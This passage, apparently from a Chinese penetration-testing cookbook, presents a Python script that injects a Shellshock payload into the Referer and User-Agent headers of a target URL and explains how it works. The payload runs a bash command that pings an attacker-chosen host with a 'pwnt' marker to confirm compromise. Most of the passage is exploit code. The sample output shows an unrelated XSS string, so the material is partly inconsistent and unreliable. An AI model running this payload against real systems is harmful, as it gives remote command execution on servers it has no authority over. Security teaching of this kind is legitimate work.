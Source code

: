 确定要测试的 URL。确定目标网页后，将其作为`sys.argv`传递给脚本：

## 怎么做…

您的脚本应与以下脚本相同：

```py
import requests
import sys
url = sys.argv[1]
payload = "() { :; }; /bin/bash -c 'ping –c 1 –p pwnt <url/ip>'"
headers ={}
r = requests.head(url)
for header in r.headers:
  if header == "referer" or header == "User-Agent": 
    headers[header] = payload
req = requests.post(url, headers=headers)
```

该脚本不会提供输出，因为它以功能的管理端为目标。但是，您可以通过以下方式轻松设置它，以便在每个循环上提供输出：

```py
Print "Submitted "+payload
```

每次都会返回以下内容：

```py
Submitted <script>alert(1);</script>
```

## 它是如何工作的…

我们导入这个脚本所需的库，并以`sys.argv`函数的形式进行输入。这有点重复，但它完成了工作。

我们将有效载荷声明为单个实体。如果希望在服务器上执行多个操作，可以将其作为有效负载，类似于前面的操作。我们还为标题有效负载组合创建一个空字典，并向目标 URL 发出`HEAD`请求：

```py
payload = "() { :; }; /bin/bash -c 'ping –c 1 –p pwnt <url/ip>'"
headers ={}
r = requests.head(url)
```

此处设置的有效负载将 ping 您在`<url/ip>`空间设置的任何服务器。它将在该 ping 中发送一条消息，即`pwnt`。这允许您确定服务器实际上已被破坏，而不仅仅是随机服务器。

然后，我们通过检查我们在初始`HEAD`请求中拉入的每个头，并检查是否有`referrer`或`User-Agent`头，这些头容易受到炮击攻击。如果这些标头存在，我们将针对该标头发送攻击字符串：

```py
for header in r.headers:
  if header == "referer" or header == "User-Agent": 
    headers[header] = payload
```

一旦我们确定了我们的头是否存在，并且针对它们设置了攻击字符串，我们就启动请求。如果成功，消息应显示在我们的日志中：

```py
req = requests.post(url, headers=headers)
```